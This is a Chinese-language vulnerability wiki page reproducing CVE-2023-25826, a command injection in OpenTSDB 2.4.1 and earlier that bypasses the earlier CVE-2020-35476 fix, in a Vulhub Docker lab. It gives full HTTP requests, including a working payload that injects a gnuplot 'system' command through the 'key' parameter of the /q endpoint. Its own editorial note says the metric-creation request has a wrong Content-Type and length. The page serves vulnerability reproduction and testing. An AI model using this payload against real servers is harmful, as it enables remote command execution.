





# OpenTSDB 命令注入漏洞 CVE-2023-25826

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<=2.4.1；有数据metric和可用绘图路径；服务权限
- 证据范围：先证明旧yrange payload被拒，再对key参数验证，具有独立补丁绕过证据

### 本次正文校订

- 按实际内容修正 4 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺准确安全发布版本/认证配置条件
- JSON请求Content-Type和固定长度需修正
- 与35476虽共用环境/建数据步骤仍是不同漏洞，不可合并CVE身份
- 保留负对照和参数差异，复现截图未视检

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

OpenTSDB 是一款基于 Hbase 的、分布式的、可伸缩的时间序列数据库。 2.4.1 版本及之前，存在一处命令注入漏洞。 这个漏洞其实是对之前的 CVE-2020-35476 修复不完善导致的，所以整个复现过程也与之前类似。

参考链接：

- [https://www.synopsys.com/blogs/software-security/opentsdb/](https://www.synopsys.com/blogs/software-security/opentsdb/)
- [OpenTSDB/opentsdb#2275](https://github.com/OpenTSDB/opentsdb/pull/2275)

## 环境搭建

Vulhub 执行如下命令启动一个 OpenTSDB 2.4.1：

```shell
docker-compose up -d
```

服务启动后，访问`http://your-ip:4242`即可看到 OpenTSDB 的 Web 接口。




## 漏洞复现

这之前的都和 CVE-2020-35476 一致，也是需要知道一个 metric 的名字，可以通过`http://your-ip:4242/api/suggest?type=metrics&q=&max=10`查看 metric 列表。

这里的 metric 列表是空的。但当前 OpenTSDB 开启了自动创建 metric 功能（`tsd.core.auto_create_metrics = true`），所以也可以使用如下 API 创建一个名为`sys.cpu.nice`的 metric 并添加一条记录：

```http
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 972388800,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```




如果目标 OpenTSDB 存在 metric，且不为空，则无需上述步骤。

发送 CVE-2020-35476 payload ：

```http
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/awesome_poc%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Connection: close
```

将返回错误：

```
{"err":"'yrange' was invalid. Must be in the format [min:max]."}
```




CVE-2023-25826 绕过修复的一个点，在参数 key 这里：

```shell
# CVE-2020-35476
/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/awesome_poc%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json

# CVE-2023-25826
/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/awesome_poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

发送数据包：

```http
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/awesome_poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Connection: close
```




进入容器中可见 `touch /tmp/awesome_poc` 已成功执行：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
